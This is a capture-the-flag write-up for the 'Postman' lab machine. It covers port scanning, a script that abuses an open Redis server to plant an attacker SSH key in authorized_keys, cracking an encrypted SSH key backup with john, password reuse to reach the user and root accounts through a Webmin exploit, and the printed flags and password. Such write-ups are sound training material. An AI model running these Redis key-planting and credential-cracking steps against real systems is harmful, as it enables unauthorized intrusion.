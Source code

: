 # ![Postman](images/postman.png) Postman

## User

### Scan

```
$ nmap -sC -sV 10.10.10.160
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:18 EST
Nmap scan report for 10.10.10.160
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.42 seconds
```

### Services

From top to bottom, let's go down the list of services and see if there's anything interesting. 

#### SSH

The version is OpenSSH 7.6 and doesn't seem to have many known vulnerabilities. I did find an interesting user enumeration vulnerability, but all of the PoCs I found said that every username I tested was a valid username.

#### Apache

Apache 2.4.29 doesn't have many severe vulnerabilities either. Just a local access vulnerability that may come in handy once we get a shell. The actual contents of the site are also pretty slim, it just seems like a site under construction.

![Apache](images/apache.png)

#### MiniServ

Here is where it gets interesting. The version is 1.910, which is vulnerable to a RCE exploit that requires unprivileged user access. If we can get a user, then we can likely get root through this service. Unfortunately, we haven't found anything that we can exploit right now! The site is protected by a login page:

![Webmin](images/webmin.png)

Maybe we need to brute force credentials, but just to make sure there isn't a less popular port open we should do another scan.

### Scan Part II

```
$ nmap -sC -sV -p0-10000 10.10.10.160
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 15:07 EST
Nmap scan report for 10.10.10.160
Host is up (0.11s latency).
Not shown: 9997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.96 seconds
```
### Services Part II

#### Redis 

Aha! A service was missing from the first scan. Redis is a type of database that we should be able to connect to. 

```
apt install redis-tools
``` 

The CLI for Redis is called `redis-cli`, we can connect with:

```
redis-cli -h 10.10.10.160
```

![Redis](images/redis.png)

As you can see there aren't any keys present. Lucky for us, just getting the Redis CLI alone is enough for us to exploit the box. Redis allows us to save a file with the keys we have so far, allowing us to put whatever files we want on the box (assuming we have the permissions of course). The steps go something like this:

1. Set output directory with `config set dir /path/`
2. Set output filename with `config set dbfilename "filename"`
3. Create key `set key_name "key contents"`
4. Save db to file with `save`

The first thing that came to my mind was to upload a file with a PHP reverse shell to the webserver, then head to that address in my browser. Unfortunately, saving a file to `/var/www/html` fails without any error information, but it's likely we don't have permission for that.

From doing some research, I [found an exploit](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html) that overwrites a users `authorized_keys` file, allowing for public key SSH access. That sounds great! But this time we can't even set the directory to anywhere inside of `/home/` without getting an error. What took me awhile to figure out was that there is a `redis` user that has a home folder outside of `/home/`. `/var/lib/redis/` has a `.ssh` folder!

### Redis Exploitation

First things first, we need to get our public ssh key ready for upload.

```
$(echo -e “\n\n”; cat ~/.ssh/id_rsa.pub; echo -e “\n\n”) > pub.txt
```

Now we can write a script that will take care of all the above steps at once, and end with SSHing into the box. It's important to script this because there are many things that can go wrong if many people are running commands in the Redis terminal all at once. To reset the configuration in case other people have messed with it, I put some commands into `commands.txt`:

```
slaveof no one
config set stop-writes-on-bgsave-error no
flushall
config set dir /var/lib/redis/.ssh/
config set dbfilename "authorized_keys"
```

Then, I wrote a bash script that handles communicating with Redis and the final SSH:

```
#!/bin/bash

HOST=10.10.10.160

cat commands.txt | redis-cli -h $HOST
cat pub.txt | redis-cli -h $HOST -x set nice
redis-cli -h $HOST save
redis-cli -h $HOST config set dir /var/lib/redis
ssh redis@$HOST
```

Executing this script gives us a shell!

![Shell](images/shell.png)

### Cracking SSH Key Backups

The `redis` user doesn't have `user.txt` :(. We need to get access to a different user, probably the only user with a home folder: Matt. I ran `LinEnum.sh`, but didn't find anything interesting. Looking around for anything interesting, I stumbled upon `/opt/id_rsa.bak` because it was the only file there. I figured that this would be an easy download and pivot, but I was wrong.

The `id_rsa.bak` key is encrypted. We need to crack it and get the passphrase to be able to either make a decrypted copy or use the encrypted copy. I like `john`, so I downloaded `ssh2john` from [here](https://raw.githubusercontent.com/koboi137/john/bionic/ssh2john.py) and extracted the hash from the backup.

```
python ssh2john id_rsa.bak > id_rsa.hash
```

Now we can run `john` on the hash with a popular wordlist.

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![Hash](images/hash.png)

It worked! We have a passphrase: `computer2008`. Now we should be able to SSH in as the owner of the key, presumably Matt.

```
ssh -i id_rsa Matt@10.10.10.160
```

But it fails!!! Everything seems to fail on this box. After much chagrin, I realized that the passphrase could also be Matt's password and maybe switching accounts on the box would work instead of using SSH.

```
su Matt
``` 

And of course, this works and we get `user.txt`:

```
517ad0ec2458ca97af8d93aac08a2f3c
```

## Root

We've done 99% of the work now, we just need to pivot and use what we know to escalate privilege. Remember that MiniServ Webmin service running on port 10000? There is a awesome exploit out there, but ir requires we have access to a low level user. If Matt used the same password for his Webmin account, we might be able to take advantage of the exploit!

There's a Metasploit module for it, so all we need to do is put in the right variables and we should get a shell!

![](images/root.png)

And we have `root.txt`!

```
a257741c5bed8be7778c6ed95686ddce
```
